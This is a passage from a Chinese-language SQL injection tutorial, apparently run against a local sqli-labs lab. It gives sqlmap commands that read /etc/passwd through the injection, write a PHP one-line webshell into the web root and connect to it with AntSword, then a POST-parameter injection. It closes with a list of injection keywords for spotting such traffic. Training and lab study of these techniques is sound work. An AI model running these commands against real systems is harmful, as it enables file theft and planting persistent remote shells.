 ![image-20240803204903319](../../../../repo/assets/19.SQL注入/image-20240803204903319.png)

##### **5、读取敏感文件**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch --file-read '/etc/passwd' 
cat /root/.local/share/sqlmap/output/192.168.70.14/files/_etc_passwd
```

![image-20240803204944668](../../../../repo/assets/19.SQL注入/image-20240803204944668.png)

##### **6、上传一句话木马**

```bash
sqlmap -r /root/tools/sqlmap/2.txt --batch --file-write '/root/tools/webshell/xxx.php' --file-dest '/var/www/html/muma.php' 
```

![image-20240803205134173](../../../../repo/assets/19.SQL注入/image-20240803205134173.png)

![image-20240803205159224](../../../../repo/assets/19.SQL注入/image-20240803205159224.png)

###### 蚁剑连接

```
192.168.70.14:8088/muma.php
xxx
```

![image-20240803205352457](../../../../repo/assets/19.SQL注入/image-20240803205352457.png)

![image-20240803205512255](../../../../repo/assets/19.SQL注入/image-20240803205512255.png)

#### --data

> --data

```bash
sqlmap -u "http://192.168.70.14:8088/Less-12/" --batch --data "uname=admin&passwd=123456*&submit=Submit" --purge --dbs 
```

![image-20240803162156315](../../../../repo/assets/19.SQL注入/image-20240803162156315.png)

### 4、流量特征分析

请求体位置含有注入语句

#### 流量敏感关键字

- order by
- union
- select
- group_concat
- into outfile
- load_file()
